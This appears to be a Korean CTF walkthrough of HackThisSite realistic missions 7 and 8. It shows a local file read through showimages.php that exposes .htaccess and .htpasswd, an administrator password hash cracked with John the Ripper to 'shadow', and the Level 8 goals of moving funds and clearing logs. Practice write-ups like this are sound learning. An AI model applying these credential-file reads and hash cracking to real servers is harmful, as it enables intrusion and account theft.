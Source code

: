 - http://www.hackthissite.org/missions/realistic/7/images/admin/.htpasswd
```
Page Not Found
The requested URL /missions/realistic/7/images/admin/.htaccess was not found on this server.
```

page not found를 봤지만 포기하지 않고, 본 페이지에서 이미지를 불러오는 방식을 응용해보기로 했다. 이미지 불러올 때 했던 것 처럼 php파일뒤에 get방식으로 불러와보자.

- http://www.hackthissite.org/missions/realistic/7/showimages.php?file=images/admin/.htaccess
  + 뭔가 실마리가 보이는듯하다.
```html
<center><a href="AuthName "Administration Access"
"><img src="AuthName "Administration Access"
" width=100></a> <a href="AuthType Basic 
"><img src="AuthType Basic 
" width=100></a> <a href="AuthUserFile /www/hackthissite.org/www/missions/realistic/7/images/admin/.htpasswd
"><img src="AuthUserFile /www/hackthissite.org/www/missions/realistic/7/images/admin/.htpasswd
" width=100></a> <a href="require valid-user
"><img src="require valid-user
" width=100></a> <a href=""><img src="" width=100></a> </center></font>
</td></tr></table>
```

- 거의 다 온 것 같다. 소스코드보기로 확인
- `http://www.hackthissite.org/missions/realistic/7/showimages.php?file=images/admin/.htpasswd`

```html
<center><a href="administrator:$1$AAODv...$gXPqGkIO3Cu6dnclE/sok1
"><img src="administrator:$1$AAODv...$gXPqGkIO3Cu6dnclE/sok1
" width=100></a> <a href=""><img src="" width=100></a> </center></font>
</td></tr></table>
```
  + `administrator:$1$AAODv...$gXPqGkIO3Cu6dnclE/sok1`를 이전 레벨에서와 같이 카인&아벨에 넣어보았으나 그걸로는 안깨졌다. 칼리리눅스에 있는 john the ripper로 해결!

```
Loaded 1 password hash (FreeBSD MD5 [128/128 SSE2 intrinsics 12x]) shadow(administrator) guesses: 1  time: 0:00:00:00 DONE (Wed Nov 5 16:09:07 2014) c/s: 2500  trying: 123456 - diamond Use the "--show" option to display all of the cracked passwords reliably
```
위와 같은 메시지가 나오면서 크랙이 완료된다. `/images/admin`에 아래 코드를 넣으면 클리어! 

ID: administrator, password: shadow

## Level 8. United Banks Of America

### 문제 요약
1. Find the account of Gary Hunter (I don't know his account name
  - GaryWilliamHunter
2. Move the $10,000,000 into the account dropCash.
3. Clear The Logs, They're held in the folder 'logFiles'. © All Rights Reserved(Linkback is required)
  - linkback 필요하다는 것 생각해두기
